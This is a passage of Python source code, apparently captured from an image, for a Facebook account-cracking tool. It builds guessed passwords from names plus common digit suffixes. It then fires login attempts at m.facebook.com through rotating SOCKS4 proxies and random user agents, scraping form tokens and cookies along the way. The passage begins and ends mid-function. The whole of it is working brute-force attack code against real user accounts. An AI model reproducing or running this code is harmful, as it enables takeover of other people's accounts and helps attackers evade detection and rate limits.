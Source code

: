                     pwv.append(nmf)
                else:
                    pwv.append(frs+'1212')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'12345')
                    pwv.append(frs+'123456')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'112233')
                    pwv.append(frs+frs)
                    pwv.append(frs+'123@')
                    pwv.append(frs+'1234567')
                    pwv.append(frs+'12345678')   
                    pwv.append(frs+'123456789')   
                    pwv.append(frs+'1234567890')	
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            else:pass
            if 'mobile' in method:
                pool.submit(crack,idf,pwv)
            elif 'free' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'touch' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'mbasic' in method:
                pool.submit(crackfree,idf,pwv)
            else:
                pool.submit(crackfree,idf,pwv)
   
 
#--------------------[ METODE-B-API ]-----------------#
 
def crack(idf,pwv):
    global loop,ok,cp
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r 7AJI ] {P}{k}\033[1;37m{loop}\033[1;31m{P}  {P}{H}[ok] - {ok}{P}  {P}\033[1;31m{x}  {bo}{'{}'.format(loop/float(len(id)))}{P} "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'